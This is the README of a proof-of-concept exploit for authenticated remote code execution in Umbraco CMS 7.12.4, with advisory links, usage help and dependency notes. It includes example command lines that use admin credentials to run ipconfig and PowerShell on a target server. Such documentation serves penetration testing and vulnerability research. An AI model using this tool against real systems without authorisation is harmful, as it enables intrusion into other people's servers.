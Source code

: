 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

[[PacketStorm](https://packetstormsecurity.com/files/158712/Umbraco-CMS-7.12.4-Remote-Code-Execution.html)] [[WLB-2020080012](https://cxsecurity.com/issue/WLB-2020080012)]

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

Examples:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c powershell.exe -a '-NoProfile -Command ls'
```

## Requirements

- [Beautiful Soup](https://www.crummy.com/software/BeautifulSoup/index.html)
- [Requests](https://requests.readthedocs.io/en/master/)

Example for ArchLinux:

```
pacman -S python-beautifulsoup4 python-requests
```

Example using pip:

```
pip3 install -r requirements.txt
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) using arguments (instead of harcoded values) and with stdout display.

Tested with python 3.8.
